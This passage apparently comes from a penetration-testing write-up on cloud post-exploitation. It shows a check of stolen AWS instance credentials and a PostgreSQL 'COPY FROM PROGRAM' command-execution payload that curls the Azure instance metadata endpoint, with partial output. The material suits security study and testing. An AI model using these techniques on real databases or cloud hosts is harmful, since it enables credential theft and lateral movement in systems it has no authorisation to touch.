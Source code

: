 !!! example ""
    ```bash
    aws sts get-caller-identity --profile review
    ```
    >
    ```json
    {
        "UserId": "9XXXX51XXXXX:aws:ec2-instance:i-095373XX129fXXafb",
        "Account": "9XXXX51XXXXX",
        "Arn": "arn:aws:sts::9XXXX51XXXXX:assumed-role/aws:ec2-instance/i-095373XX129fXXafb"
    }
    ```
While the credentials were successfully retrieved and valid, they had no actionable IAM permissions attached, effectively preventing further lateral movement or access to AWS services via the API. This is consistent with default-deny IAM policies or minimal-permission roles designed for EC2 telemetry or monitoring only.


### Azure

When operating in a cloud environment, it’s common to check for instance metadata services to extract environmental details or credentials. While AWS uses the well-known http://169.254.169.254/latest/meta-data/ endpoint, this is not universal—different cloud providers expose metadata through different APIs and often with provider-specific headers or versioning requirements.

If querying the standard AWS metadata endpoint fails, it's worth checking for other cloud providers such as Azure, GCP, Oracle Cloud, or Alibaba Cloud. A comprehensive and actively maintained list of cloud metadata endpoints is available here:

For example, in a PostgreSQL environment where RCE has been achieved, the Azure metadata service can be queried as follows:

!!! example ""
    ```sql
    postgres=# CREATE TABLE poc(data TEXT);
    postgres=# COPY poc FROM PROGRAM 'curl -H "Metadata:true" "http://169.254.169.254/metadata/instance?api-version=2021-12-13"';
    postgres=# SELECT * FROM poc;
    ```
    >
    ```json
        <TRUNCATED DATA>                                                             +
    ","path":"/home/azureuser/.ssh/authorized_keys"}],
    "publisher":"OpenLogic","resourceGroupName":"XXXX","resourceId":"/subscriptions/8ed21ef0-1d5b-4cea-b7ff-707fc51b65c4/resourceGroups/XXXXXX/providers/Microsoft.Compute/virtualMachines/SG-XXXXXX","securityProfile":{"encryptionAtHost":"false",
    "secureBootEnabled":"false","securityType":"","virtualTpmEnabled":"false"},
    "sku":"7-CI","storageProfile":{"dataDisks":[{"bytesPerSecondThrottle":"","caching":"None","createOption":"Attach","diskCapacityBytes":"","diskSizeGB":"10","image":{"uri":""},"isSharedDisk
    "
    <TRUNCATED DATA> 
    ```
